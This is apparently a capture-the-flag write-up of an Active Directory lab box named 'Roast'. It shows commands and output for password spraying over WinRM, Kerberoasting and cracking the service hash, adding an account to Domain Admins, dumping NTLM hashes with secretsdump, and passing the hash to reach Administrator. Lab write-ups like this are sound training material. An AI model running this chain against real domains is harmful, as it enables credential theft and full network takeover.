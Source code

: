 
In the description on LDAP search for the user dsmith there is a password: WelcomeToR04st
It worked with the user dsmith, but I couldn't log in over winrm with this user.

Now we can just try it against the other users to find that we can login with "crhodes:WelcomeToR04st"
```
evil-winrm -i 172.31.3.2 -u crhodes -p "WelcomeToR04st" -s ~/ctf/cyberseclab/challenge/roast/scripts
```
Since this is an AD box, I'll run sharphound and see if we can see anything in Bloodhound that we can use to privesc.

### PRIV ESC

```
GetUserSPNs.py roast.csl/crhodes:WelcomeToR04st -dc-ip 172.31.3.2 -request -outputfile hash
Impacket v0.9.22.dev1+20200605.133909.874d7ae4 - Copyright 2020 SecureAuth Corporation

ServicePrincipalName  Name      MemberOf                                               PasswordLastSet             LastLogon  Delegation 
--------------------  --------  -----------------------------------------------------  --------------------------  ---------  ----------
roast/ROAST           roastsvc  CN=Remote Management Users,CN=Builtin,DC=roast,DC=csl  2020-05-15 07:35:50.302845  <never> 


john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!!!watermelon245 (?)
1g 0:00:00:09 DONE (2020-07-10 17:46) 0.1017g/s 1459Kp/s 1459Kc/s 1459KC/s !!12Honey..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed          
```

Now we can log in to user roastsvc.
```
evil-winrm -i 172.31.3.2 -u roastsvc -s ~/ctf/cyberseclab/challenge/roast/scripts -e ~/ctf/cyberseclab/challenge/roast/exe
Enter Password:
```
From Bloodhound we were able to see that roastsvc has GenericWrite/GenericAll privelege to the Domain Admins group. With this we can add ourselves to the group and dump the hashes of the users on the machine.
```
*Evil-WinRM* PS C:\Users\roastsvc\Documents> net group "Domain Admins" roastsvc /add

The command completed successfully.
```
Now we are part of the group we can run secretsdump to get the hashes
```
secretsdump.py roast.csl/roastsvc@roast.csl -dc-ip 172.31.3.2

roast.csl\dsmith:1103:aad3b435b51404eeaad3b435b51404ee:a0a8160111b21d48d2e816f4cc8da053:::
roast.csl\crhodes:1104:aad3b435b51404eeaad3b435b51404ee:a0a8160111b21d48d2e816f4cc8da053:::
roast.csl\ssmith:1105:aad3b435b51404eeaad3b435b51404ee:23991f3cd665b0bc1f7cccfd62506161:::
roast.csl\roastsvc:1106:aad3b435b51404eeaad3b435b51404ee:2f77331cfd7b2142b3a86a7d2ce7e824:::
```
With the hash we can log into the Administrator account and grab the flag
```
evil-winrm -i 172.31.3.2 -u Administrator -H f6861a8cfc1c3b9f3ff39a8adb6bd388
```

Didn't have too much time to do the last box so I'll continue this tomorrow and possibly do start the pay2play machines.